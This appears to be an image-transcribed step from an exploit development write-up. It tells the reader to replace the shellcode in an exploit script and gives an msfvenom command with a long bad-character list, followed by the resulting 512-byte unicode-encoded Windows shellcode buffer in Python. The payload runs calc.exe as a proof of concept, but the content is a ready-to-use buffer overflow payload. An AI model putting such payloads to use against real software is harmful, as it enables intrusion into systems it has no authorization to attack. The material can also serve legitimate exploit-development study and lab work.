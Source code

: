 - Replace the old shellcode from the exploit script:

```python
# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
#Payload size: 512 bytes

buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x39\x6c\x6a\x48\x72\x62\x6b\x50"
buf += b"\x49\x70\x4b\x50\x63\x30\x31\x79\x58\x65\x50\x31"
buf += b"\x47\x50\x63\x34\x42\x6b\x32\x30\x30\x30\x72\x6b"
buf += b"\x6e\x72\x4c\x4c\x64\x4b\x31\x42\x7a\x74\x64\x4b"
buf += b"\x62\x52\x4e\x48\x4a\x6f\x74\x77\x4e\x6a\x6e\x46"
buf += b"\x4c\x71\x79\x6f\x46\x4c\x4f\x4c\x6f\x71\x73\x4c"
buf += b"\x79\x72\x4e\x4c\x6b\x70\x47\x51\x76\x6f\x7a\x6d"
buf += b"\x4a\x61\x35\x77\x37\x72\x79\x62\x30\x52\x4f\x67"
buf += b"\x54\x4b\x61\x42\x5a\x70\x54\x4b\x6f\x5a\x6d\x6c"
buf += b"\x62\x6b\x50\x4c\x4c\x51\x70\x78\x77\x73\x50\x48"
buf += b"\x59\x71\x7a\x31\x32\x31\x34\x4b\x70\x59\x6f\x30"
buf += b"\x7a\x61\x37\x63\x74\x4b\x31\x39\x5a\x78\x5a\x43"
buf += b"\x4e\x5a\x50\x49\x64\x4b\x4d\x64\x52\x6b\x4d\x31"
buf += b"\x46\x76\x4d\x61\x49\x6f\x54\x6c\x47\x51\x78\x4f"
buf += b"\x4c\x4d\x5a\x61\x45\x77\x6c\x78\x77\x70\x30\x75"
buf += b"\x79\x66\x4c\x43\x61\x6d\x38\x78\x4f\x4b\x53\x4d"
buf += b"\x6d\x54\x70\x75\x48\x64\x51\x48\x34\x4b\x42\x38"
buf += b"\x6c\x64\x4a\x61\x4a\x33\x70\x66\x74\x4b\x6c\x4c"
buf += b"\x70\x4b\x72\x6b\x30\x58\x4d\x4c\x69\x71\x76\x73"
buf += b"\x42\x6b\x69\x74\x72\x6b\x79\x71\x66\x70\x71\x79"
buf += b"\x71\x34\x4f\x34\x4f\x34\x61\x4b\x51\x4b\x73\x31"
buf += b"\x50\x59\x6e\x7a\x30\x51\x79\x6f\x59\x50\x61\x4f"
buf += b"\x51\x4f\x4e\x7a\x32\x6b\x4d\x42\x58\x6b\x54\x4d"
buf += b"\x4f\x6d\x51\x5a\x39\x71\x44\x4d\x33\x55\x38\x32"
buf += b"\x4d\x30\x6b\x50\x69\x70\x52\x30\x6f\x78\x70\x31"
buf += b"\x32\x6b\x32\x4f\x42\x67\x69\x6f\x66\x75\x57\x4b"
buf += b"\x6c\x30\x46\x55\x77\x32\x52\x36\x6f\x78\x66\x46"
buf += b"\x54\x55\x75\x6d\x73\x6d\x49\x6f\x48\x55\x6d\x6c"
buf += b"\x5a\x66\x31\x6c\x4c\x4a\x35\x30\x6b\x4b\x37\x70"
buf += b"\x50\x75\x6c\x45\x37\x4b\x50\x47\x4b\x63\x54\x32"
buf += b"\x42\x4f\x42\x4a\x6b\x50\x4e\x73\x4b\x4f\x77\x65"
buf += b"\x52\x50\x53\x39\x32\x4e\x30\x67\x6d\x50\x6e\x51"
buf += b"\x70\x30\x6c\x6e\x6e\x51\x4c\x70\x4c\x6e\x6c\x71"
buf += b"\x6f\x44\x4c\x6e\x70\x32\x70\x36\x39\x70\x41\x41"
```
